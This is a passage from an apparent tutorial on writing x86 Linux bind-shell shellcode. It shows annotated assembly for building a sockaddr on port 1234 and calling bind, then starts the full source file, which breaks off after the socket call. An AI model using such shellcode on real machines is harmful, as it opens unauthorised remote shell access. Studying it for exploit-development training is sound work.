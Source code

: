 We now need to set up a sockaddr structure.  This will be the structure which holds the parameters for the port and address we bind to.

```
xor ecx, ecx  
push ecx ; ADDR_ANY  
push word 0xD204 ; port 1234 little endian  
push word 2 ; AF_INET  
  
mov ecx, esp  
```

Again we push each parameter in reverse order, so firstly we push the address.  We want to bind the `0.0.0.0` or INADDR_ANY, which is defined as simply 0.  For this we zero out the ecx register and push it.

We then want to bind to port 1234, but we need to define this in little endian order.  The hex form of 1234 is `0x04D2` so in little-endian that is `0xD204`, the bytes effectively reversed.  AF_INET is defined as 2, so we push that next.

We then move esp, the current stack position into ecx, effectively saving the address of our structure in a register so we can reference it in the next stage.

### bind = bind(sock, sockaddr, len(sockaddr))
Here we bind our socket to a port and address.

```
mov edx, eax  

xor eax, eax  
xor ebx, ebx  
mov al, 0x66  
mov bl, 2 ; bind

push 16; socklen_t addrlen  
push ecx; sockaddr *addr  
push edx ; sockfd   
int 0x80  
```

At this point eax has not been touched so it will contain the file descriptor of the socket we created.  We move this into edx to save it.  

We then set up our registers again for a `bind` syscall which takes the form 
```c
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```

For this we know the length of our socket structure, which is 16 as we pushed on byte and two words.  We then push ecx which contains the address of the previously created sockaddr struct and edx which contains the socket

Shellcode
---------------
 Below I have included the full asm file used to generate the bind shell:
```  
global _start  
  
section .text  
_start:  
; /usr/include/linux/net.h  
; socket(int domain, int type, int protocol)  
; socket(AF_INET, SOCK_STREAM, 0)  
; socketcall(int call, *args)  
; socketcall(SYS_SOCKET, *args)  
xor eax, eax  
xor ebx, ebx  
mov al, 0x66  
mov bl, 1  
```